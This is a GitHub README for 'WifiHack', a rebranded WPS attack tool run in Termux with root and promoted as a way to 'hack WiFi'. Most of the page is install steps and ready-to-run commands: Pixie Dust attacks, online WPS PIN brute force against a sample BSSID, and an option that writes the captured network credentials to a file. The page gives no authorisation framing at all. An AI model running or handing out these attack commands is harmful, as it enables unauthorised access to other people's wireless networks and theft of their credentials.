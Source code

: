 
### Hack WIfi Using Termux! (Requires Root)
<p align="center"><img src="https://i.ibb.co/ygb9X0K/Screenshot-2023-04-13-12-18-19-365-com-termux.jpg"></p>

## [Termux](https://termux.com/)
Please note that root access is required.  

### Manually
**Installing requirements**
 ```
 pkg install -y root-repo
 ```
 ```
 pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
 ```
### Getting WifiHack
 ```
 git clone --depth 1 https://github.com/BINOD-XD/WifiHack
 ```
 ```
 cd WifiHack
 ```
### Running
 ```
 sudo python binod.py -i wlan0 -K
 ```
### One line Command
 ```
 sudo python WifiHack/binod.py -i wlan0 -K
 ```

# Usage
```
 binod.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 binod.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 binod.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 binod.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 binod.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running WifiHack with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
# Acknowledgements
## Special Thanks
* FARAN X FF
## [Facebook](https://www.facebook.com/profile.php?id=100094924471568&mibextid=ZbWKwL)
## [Whatsapp](https://wa.me/+880130505723*)

## Thanks For Using This Tool 😘😍
